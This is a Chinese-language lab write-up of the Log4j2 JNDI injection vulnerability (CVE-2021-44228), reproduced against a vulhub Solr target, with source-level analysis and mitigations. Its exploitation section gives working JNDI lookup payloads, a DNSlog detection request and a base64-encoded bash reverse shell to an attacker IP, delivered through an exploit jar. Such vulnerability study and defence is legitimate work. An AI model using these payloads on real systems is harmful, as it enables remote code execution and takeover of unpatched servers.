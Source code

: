 # CVE-2021-44228 Log4j2 RCE

## Description

Apache Log4j2 是一款优秀的 Java 日志框架。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。阿里云应急响应中心提醒 Apache Log4j2 用户尽快采取安全措施阻止漏洞攻击。

vulhub: [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)


### 影响版本

Apache Log4j 2.x <= 2.14.1

## 扩展知识
### JNDI

JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 在局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。

​JNDI 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA 对象服务、RMI 等等。

其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等。

## Explanation of exploit; PoC

### 验证是否存在漏洞

1. 靶场运行后，访问 `http://your-ip:8983` ，如果页面显示 `Solr Admin`，则说明部署成功。
2. 先通过 [Dnslog](http://dnslog.cn/) 平台获取一个子域名 `ie2p24.dnslog.cn`
3. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater。
4. 修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:ldap://ie2p24.dnslog.cn}` ，并发送请求。
    ![](images/cve-2021-44228-8.png)
5. 访问 [Dnslog](http://dnslog.cn/) 平台，可以看到已经收到了请求，说明存在漏洞。
    ![](images/cve-2021-44228-9.png)

### 利用漏洞 RCE

1. 使用 [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases) 进行漏洞利用
2. 反弹 Shell 指令 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1`，其中 `192.168.10.20` 为 Kali 的 IP 地址，`4444` 为 Kali 的监听端口。
3. 为提高命令执行有效负载 Runtime.getRuntime().exec() 的成功率，将此条反弹 Shell 指令进行 Java Runtime Bash 编码，参考 [Java Runtime Bash Encoding](https://x.hacking8.com/java-runtime.html)
4. 编码后的反弹 Shell 指令为 `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}`
5. 将编码后的反弹 Shell 指令作为参数传入 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，执行命令 `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.10.20`，其中 `-C` 为命令参数，`-A` 为 Kali IP 地址。
    ![](images/cve-2021-44228-10.png)
6. 同时在 Kali 上监听 `4444` 端口。
    ![](images/cve-2021-44228-11.png)
7. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater，修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:rmi://192.168.10.20:1099/aq9oex}` ，并发送请求。其中 `rmi://192.168.10.20:1099/aq9oex` 为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 生成的 Payload。
    ![](images/cve-2021-44228-12.png)
8. 回到 Kali，可以看到已经收到了反弹 Shell 请求，说明利用成功。
    ![](images/cve-2021-44228-13.png)

### 漏洞分析

漏洞触发点在 Logger 的 `debug、info、warn、error、fatal` 方法

![](images/CVE-2021-44228-1.png)

这些方法都会调用 `logIfEnabled` 方法

![](images/CVE-2021-44228-2.png)

从 `logIfEnabled` 层层跟入，到达 `MessagePatternConverter` 类的 `format` 方法，在这个方法内部，会先判断 `this.config != null && !this.noLookups` 的值是否为真，其中 `this.noLookups` 的值来自于 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`，`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 的值又来自于 JVM 参数 `log4j2.formatMsgNoLookups` 的值，相关代码如下

```java
this.noLookups = Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS || noLookupsIdx >= 0;
···
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

所以只要 JVM 参数中 `log4j2.formatMsgNoLookups==True`，漏洞利用就无法成功。

之后的代码会判断要打印的日志字符串 `workingBuilder` 中是否包含连续的两个字符 `$` 和 `{`。如果存在，就将 `${xxx}` 这段字符提取出来，传入 `StrSubstitutor` 类的 `replace` 方法

![](images/CVE-2021-44228-3.png)

最后传入 `substitute` 方法中。`substitute` 会调用 `resolveVariable` 方法，

![](images/CVE-2021-44228-4.png)

`resolveVariable` 方法中会进行 `resolver.lookup` 查询，

![](images/CVE-2021-44228-5.png)

![](images/CVE-2021-44228-6.png)

最后会进入 `JndiLookup.lookup` 方法进行 jndi 查询，查询的参数就是 `ldap://127.0.0.1:1389/a`

![](images/CVE-2021-44228-7.png)


## Mitigation
### 通用修补建议

- 升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1
- 升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

### 临时修补建议

- 设置 JVM 启动参数 `-Dlog4j2.formatMsgNoLookups=true`
- 拦截请求中的 `${` 字符串
- 限制不必要的应用访问外网

## References

- [Apache Log4j 远程代码执行漏洞源码级分析](https://www.cnblogs.com/510602159-Yano/p/15689497.html)
- [CVE-2021-44228——Log4j2-RCE漏洞复现](https://www.cnblogs.com/loongten/p/15822195.html)